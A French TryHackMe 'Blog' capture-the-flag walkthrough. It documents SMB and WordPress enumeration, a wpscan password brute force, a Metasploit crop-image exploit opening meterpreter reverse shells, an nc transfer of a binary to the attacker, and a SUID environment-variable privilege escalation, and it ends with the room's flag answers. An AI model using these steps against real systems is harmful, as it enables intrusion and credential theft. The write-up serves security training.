


# Blog #

## Task 1 Blog ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.66.79 blog.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A blog.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 18:40 CEST

Nmap scan report for blog.thm (10.10.66.79)
Host is up (0.034s latency).
Other addresses for blog.thm (not scanned): 10.10.66.79
Not shown: 65531 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/31%OT=22%CT=1%CU=33466%PV=Y%DS=2%DC=T%G=Y%TM=612E5B9
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2021-08-31T16:40:50+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-31T16:40:50
|_  start_date: N/A

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   33.22 ms 10.9.0.1
2   33.68 ms blog.thm (10.10.66.79)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.04 seconds

```

D'après nmap on plusieurs services : 
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   
Le service SMB sur les ports 139 et 445.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L ////blog.thm//
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	BillySMB        Disk      Billy's local SMB Share
	IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

On voit que BillySMB n'est pas un partage commun.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient //blog.thm/BillySMB
Enter WORKGROUP\tim's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue May 26 20:17:05 2020
  ..                                  D        0  Tue May 26 19:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 20:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 20:13:45 2020
  check-this.png                      N     3082  Tue May 26 20:13:43 2020

		15413192 blocks of size 1024. 9788756 blocks available
smb: \> get Alice-White-Rabbit.jpg 
getting file \Alice-White-Rabbit.jpg of size 33378 as Alice-White-Rabbit.jpg (140,5 KiloBytes/sec) (average 140,5 KiloBytes/sec)
smb: \> get tswift.mp4 
getting file \tswift.mp4 of size 1236733 as tswift.mp4 (2195,9 KiloBytes/sec) (average 1586,1 KiloBytes/sec)
smb: \> get check-this.png 
getting file \check-this.png of size 3082 as check-this.png (22,1 KiloBytes/sec) (average 1354,4 KiloBytes/sec)
smb: \> exit
```

On se connecte sur le partage BillySMB et on télécharge les fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ steghide extract -sf Alice-White-Rabbit.jpg
Entrez la passphrase: 
�criture des donn�es extraites dans "rabbit_hole.txt".
tim@kali:~/Bureau/tryhackme/write-up$ cat rabbit_hole.txt 
You've found yourself in a rabbit hole, friend.
```

On trouve un fichier caché dans rabbit_hole.txt.   
C'est une impasse.   


**What CMS was Billy using?**




En bas du site on vois que le cms est wordpress.     

Réponse : WordPress     


```bash
tim@kali:~/Bureau/tryhackme/write-up$     wpscan --url blog.thm -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.thm/ [10.10.66.79]
[+] Started: Tue Aug 31 18:55:00 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://blog.thm/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://blog.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://blog.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://blog.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://blog.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://blog.thm/feed/, <generator>https://wordpress.org/?v=5.0</generator>
 |  - http://blog.thm/comments/feed/, <generator>https://wordpress.org/?v=5.0</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://blog.thm/wp-content/themes/twentytwenty/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://blog.thm/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.8
 | Style URL: http://blog.thm/wp-content/themes/twentytwenty/style.css?ver=1.3
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://blog.thm/wp-content/themes/twentytwenty/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug 31 18:55:05 2021
[+] Requests Done: 54
[+] Cached Requests: 8
[+] Data Sent: 13.551 KB
[+] Data Received: 406.224 KB
[+] Memory used: 152.062 MB
[+] Elapsed time: 00:00:04
tim@kali:~/Bureau/tryhackme/write-up$ 
```

**What version of the above CMS was being used?**

wpscan nous que la version de WordPress est  : 5.0


On énumère les noms qui sont : kwheel, bjoel, Karen Wheeler, Billy Joel   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "kwheel" >> user.txt
tim@kali:~/Bureau/tryhackme/write-up$ echo "bjoel" >> user.txt
tim@kali:~/Bureau/tryhackme/write-up$ echo "Karen Wheeler" >> user.txt
tim@kali:~/Bureau/tryhackme/write-up$ echo "Billy Joel" >> user.txt
Scan Aborted: Canceled by User
tim@kali:~/Bureau/tryhackme/write-up$ wpscan --url blog.thm -U ./user.txt -P /usr/share/wordlists/rockyou.txt -t 16
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://blog.thm/ [10.10.66.79]
[+] Started: Tue Aug 31 19:06:56 2021

Interesting Finding(s):

...
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <===============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 4 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                                                                                
^Cying bjoel / jamielee Time: 00:04:22 <                                                                                                                                                            > (16379 / 57380432)  0.02%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

[!] No WPScan API Token given, as a result vulnerability data has not been output.                                                                                                                  > (16398 / 57380432)  0.02%  ETA: ??:??:??
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug 31 19:11:25 2021
[+] Requests Done: 16540
[+] Cached Requests: 39
[+] Data Sent: 8.239 MB
[+] Data Received: 9.709 MB
[+] Memory used: 219.691 MB
[+] Elapsed time: 00:04:28

Scan Aborted: Canceled by User

```

En brute forçant on trouve un identifiant qui est : 
Nom : kwheel
Mot de passe  :  cutiepie1   


```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit wordpress 5.0
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
WordPress 5.0.0 - Image Remote Code Execution                                                                                                                                                               | php/webapps/49512.py
WordPress Core 5.0 - Remote Code Execution                                                                                                                                                                  | php/webapps/46511.js
WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)                                                                                                                                                 | php/remote/46662.rb
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                                                                                     | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                                                                                     | php/dos/47800.py
WordPress Plugin Custom Pages 0.5.0.1 - Local File Inclusion                                                                                                                                                | php/webapps/17119.txt
WordPress Plugin Database Backup < 5.2 - Remote Code Execution (Metasploit)                                                                                                                                 | php/remote/47187.rb
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities                                                                                                                                         | php/webapps/39553.txt
WordPress Plugin FeedWordPress 2015.0426 - SQL Injection                                                                                                                                                    | php/webapps/37067.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                                                                                                                                                   | php/webapps/44943.txt
WordPress Plugin leenk.me 2.5.0 - Cross-Site Request Forgery / Cross-Site Scripting                                                                                                                         | php/webapps/39704.txt
WordPress Plugin Marketplace Plugin 1.5.0 < 1.6.1 - Arbitrary File Upload                                                                                                                                   | php/webapps/18988.php
WordPress Plugin Network Publisher 5.0.1 - 'networkpub_key' Cross-Site Scripting                                                                                                                            | php/webapps/37174.txt
WordPress Plugin Nmedia WordPress Member Conversation 1.35.0 - 'doupload.php' Arbitrary File Upload                                                                                                         | php/webapps/37353.php
WordPress Plugin Quick Page/Post Redirect 5.0.3 - Multiple Vulnerabilities                                                                                                                                  | php/webapps/32867.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                                                                                                 | php/webapps/48918.sh
WordPress Plugin Smart Slider-3 3.5.0.8 - 'name' Stored Cross-Site Scripting (XSS)                                                                                                                          | php/webapps/49958.txt
WordPress Plugin WP-Property 1.35.0 - Arbitrary File Upload                                                                                                                                                 | php/webapps/18987.php
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

On voit qu'il existe un exploit pour metasploit qui est Crop-image shell upload.    

```bash

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce               2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec  2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/wp_property_upload_exec
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.26     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS blog.thm
RHOSTS => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME Kwheel
USERNAME => Kwheel
msf6 exploit(multi/http/wp_crop_rce) > set LHOST 10.9.228.66
LHOST => 10.9.228.66
msf6 exploit(multi/http/wp_crop_rce) > run
[*] Exploiting target 10.10.66.79

[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Authenticating with WordPress using Kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.66.79
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.9.228.66:4444 -> 10.10.66.79:34128) at 2021-08-31 19:23:01 +0200
[*] Session 1 created in the background.
[*] Exploiting target 10.10.66.79
[*] Started reverse TCP handler on 10.9.228.66:4444 
[*] Authenticating with WordPress using Kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.10.66.79
[*] Attempting to clean up files...
[*] Meterpreter session 2 opened (10.9.228.66:4444 -> 10.10.66.79:34178) at 2021-08-31 19:24:43 +0200
[*] Session 2 created in the background.
msf6 exploit(multi/http/wp_crop_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 

```

On exploit la faille avec metasploit et on obtient une console meterpreter.    

```bash
meterpreter > shell
Process 9901 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls /home/
bjoel
cd /home/bjoel
ls
Billy_Joel_Termination_May20-2020.pdf
user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
```

On trouve le répertoire bjoel et dans celui-ci un fichier user.txt.   
Mais c'est pas le bon fichier.    

```bash
find / -name user.txt 2>/dev/null
/home/bjoel/user.txt
```

Je sais que c'est un fichier user.txt mais je ne le trouve pas je dois pas avoir les bonnes permissions.   

```bash
find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/umount
/bin/ping
/bin/su
```

On regarde les fichiers setuids on remarque que checker n'est pas un fichier fournit pas défaut avec le l'os.   

```bash
cd /usr/sbin
-------------
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > checker
-------------
nc 10.9.228.66 1234 < checker
```

On transfère le fichier checker pour analyse.    



On voit que le programme vérifie si une variable d'environemment du nom admin existe.  

```bash
export admin=1
./checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

On crée une variable admin avec la valeur 1, la valeur n'a pas d'importance.   
On exécute  checker et on a les droits root.   

**Where was user.txt found?**

```bash
find / -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

On trouve user dans /media/usb

**user.txt**

```bash
cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

On lit le fichier user.txt.  
La réponse est : c8421899aae571f7af486492b71a8ab7     

**root.txt**

```bash
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

On lit le fichier root.txt
La réponse est : 9a0b2b618bef9bfa7ac28c1353d9f318   

